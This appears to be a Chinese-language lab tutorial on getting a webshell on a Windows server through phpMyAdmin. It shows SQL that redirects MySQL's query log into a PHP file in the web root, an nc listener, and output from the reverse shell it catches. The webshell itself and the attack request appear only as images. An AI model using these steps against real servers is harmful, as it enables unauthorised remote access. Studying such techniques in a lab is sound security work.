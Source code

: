 > 本文介绍如何通过phpmyadmin获取windows服务器的webshell

#### phpmyadmin部分

* 查看mysql查询日志的状态

  ![look_mysql_log](images/look_mysql_log.png)

* 开启mysql的查询日志记录

  ```mysql
  set global general_log=ON
  set global general_log_file='C:\\phpStudy\\PHPTutorial\\WWW\\mysql_log.php';
  ```

  > 日志的生成路径是当前服务器路径

  ![set_mysql_log](images/set_mysql_log.png)

* 生成我们的一句话木马


![yijuhua](images/yijuhua.png)



#### 浏览器部分

* 确认日志文件是否生成

  ![check_log_general](images/check_log_general.png)

* 安装浏览器插件（模拟POST）

  我这里用的是火狐的*HTTP request Maker*

* 攻击机子开启本地监听

  ```sh
  xxmu@xxmu:~$ nc -v -l -p 6666
  Listening on [0.0.0.0] (family 0, port 6666)
  ```
* 浏览器模拟请求攻击
  ![check_log_general](images/request_attack.png)
* 获得shell
```
xxmu@xxmu:~$ nc -v -l -p 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from DESKTOP-9U0DO9G.lan 51175 received!
Microsoft Windows [�汾 10.0.17763.55]
(c) 2018 Microsoft Corporation����������Ȩ����

C:\phpStudy\PHPTutorial\WWW>net user
net user

\\DESKTOP-9U0DO9G ���û��ʻ�

-------------------------------------------------------------------------------
Administrator            amu                      DefaultAccount           
Guest                    WDAGUtilityAccount       
�����ɹ����ɡ�

```

#### 完结
